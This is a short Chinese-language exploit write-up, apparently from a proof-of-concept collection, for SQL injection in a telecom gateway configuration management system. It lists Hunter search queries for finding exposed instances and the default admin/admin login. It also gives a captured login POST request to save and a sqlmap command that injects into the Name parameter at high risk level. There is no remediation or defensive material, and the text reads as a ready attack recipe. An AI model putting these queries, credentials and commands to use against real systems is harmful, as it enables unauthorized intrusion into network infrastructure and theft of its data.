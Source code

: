 # 电信网关配置管理系统 SQL注入漏洞

## 网络测绘

hunter: web.body="img/dl.gif" and web.title="系统登录"

hunter: web.body="img/login_bg3.png" and web.title="系统登录"

## POC / EXP

```
默认用户名：admin
默认密码：admin
```

抓登录包，保存txt

```
POST /manager/login.php HTTP/1.1
Host: x.x.x.x
Content-Length: 21
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://x.x.x.x/manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=1mr3udle5m1ptuj0c0hcpc5lt3
Connection: close

Name=admin&Pass=admin
```

sqlmap直接跑注入

```
sqlmap -r 1.txt -p Name --risk 3
```